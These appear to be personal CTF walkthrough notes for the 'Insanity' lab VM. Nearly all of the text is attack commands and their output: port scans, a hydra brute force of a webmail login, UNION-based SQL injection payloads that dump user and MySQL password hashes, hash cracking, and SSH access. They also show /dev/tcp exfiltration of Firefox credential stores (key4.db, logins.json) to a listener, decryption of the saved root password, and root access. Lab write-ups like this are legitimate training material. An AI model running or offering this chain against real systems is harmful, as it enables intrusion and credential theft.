

## init
```bash
<>
ping -c 1 192.168.1.11

# enumerate ports
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.1 -oG allPorts
nmap -sCV -p21,22,80 192.168.1.11 -oN targeted
batcat targeted -l java

# COnnect to ftp
ftp 192.168.1.11
# user: anonymous
# pass: 

put exmaple.txt # upload files into ftp

whatweb http://192.168.1.11

nvim /etc/hosts # put 192.168.1.11 insanityhosting.vm 

# FUZZing
# use: https://github.com/danielmiessler/SecLists
gobuster dir -u http://192.168.1.11 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

searchsploit ssh user enumeration

# using hydra to brute force attack
^
hydra -l otis -P /usr/share/wordlists/rockyou.txt "http-post-form://192.168.1.11/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -t 20


```


```bash

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 13:50:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 14344399 login tries (l:1/p:14344399), ~717220 tries per task
[DATA] attacking http-post-form://192.168.1.11:80/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[80][http-post-form] host: 192.168.1.11   login: otis   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-15 13:50:22

# tcmpdump
tcpdump -i wlo1 icmp -n

# In webmail
test' or 1=1-- -

```


```bash
test" or 1=1-- -

```


```bash


test" union select 1,2,group_concat(table_name),4 from information_schema.tables
where table_schema='monitoring'-- - is down. Please check the report below for more
information.

ID, Host, Date Time, Status
173,test,"2025-03-15 20:02:01",1
1,2,"hosts,log,users",4

test" union select 1,2,group_concat(column_name),4 from information_schema.columns
where table_schema='monitoring' and table_name='users'-- - is down. Please check
the report below for more information.

ID, Host, Date Time, Status
1,2,"id,username,password,email",4


test" union select 1,2,group_concat(username,0x3a,password),4 from users-- - is
down. Please check the report below for more information.

ID, Host, Date Time, Status
173,test,"2025-03-15 20:02:01",1
1,2,"admin:$2y$12$huPSQmbcMvgHDkWIMnk9t.1cLoBWue3dtHf9E5cKUNcfKTOOp8cma,nicholas:$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qe,otis:$2y$12$./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFW",4

# regular expressions
%s/,/\r/g

# if there is nothing in users we must see in mysql table

test" union select 1,2,3,group_concat(table_name) from information_schema.tables
where table_schema='mysql'-- - is down. Please check the report below for more
information.

ID, Host, Date Time, Status
173,test,"2025-03-15 20:02:01",1
1,2,3,"columns_priv,db,event,func,general_log,help_category,help_keyword,help_relation,help_topic,host,ndb_binlog_index,plugin,proc,procs_priv,proxies_priv,servers,slow_log,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user"

# 
test" union select 1,2,3,group_concat(column_name) from information_schema.columns
where table_schema='mysql' and table_name='user'-- - is down. Please check the
report below for more information.

ID, Host, Date Time, Status
1,2,3,"Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_p

#
test" union select 1,2,3,group_concat(User,0x3a,Password,0x3a,authentication_string)
from mysql.user-- - is down. Please check the report below for more information.

ID, Host, Date Time, Status
173,test,"2025-03-15 20:02:01",1
1,2,3,"root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,::,::,elliot::*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9"

crackstation.net
5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9 -> elliot123

ssh elliot@192.168.1.10
elliot123


```


```bash
https://github.com/lclevy/firepwd

python3 firepwd.py

# send files from remote to local
cat < key4.db > /dev/tcp/192.168.1.12/443 # remote
nc -nlvp 443 > key4.db # local

cat < logins.json > /dev/tcp/192.168.1.12/443 # remote
nc -nlvp 443 > logins.json # local

python3 firepwd.py
globalSalt: b'3a12fd1cef387d4857d734af506cac1eea777297'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'2de0a6c19d2cc83df8d1924789e3a8401f0f93d0'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'33609ed3e90bb7d9bc82d753fef67827'
 }
entrySalt: b'2de0a6c19d2cc83df8d1924789e3a8401f0f93d0'
b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'db18145931efeab51de725370873ab9b3ea6b79d'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'ed78aad176bc1b9e000b82afed21486ba9532983851b0db4160ffedd8ba51c35'
 }
entrySalt: b'db18145931efeab51de725370873ab9b3ea6b79d'
b'62aecb76297502a7455792f8a2f8c1f89b0dc89776e032b50808080808080808'
decrypting login/password pairs
https://localhost:10000:b'root',b'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'

su root S8Y389KJqWpJuSwFqFZHwfZ3GnegUa

cd /root

    ____                       _ __       
   /  _/___  _________ _____  (_) /___  __
   / // __ \/ ___/ __ `/ __ \/ / __/ / / /
 _/ // / / (__  ) /_/ / / / / / /_/ /_/ / 
/___/_/ /_/____/\__,_/_/ /_/_/\__/\__, /  
                                 /____/   

Well done for completing Insanity. I want to know how difficult you found this - let me know on my blog here: https://security.caerdydd.wales/insanity-ctf/

Follow me on twitter @bootlesshacker

https://security.caerdydd.wales

Please let me know if you have any feedback about my CTF - getting feedback for my CTF keeps me interested in making them.

Thanks!
Bootlesshacker


```
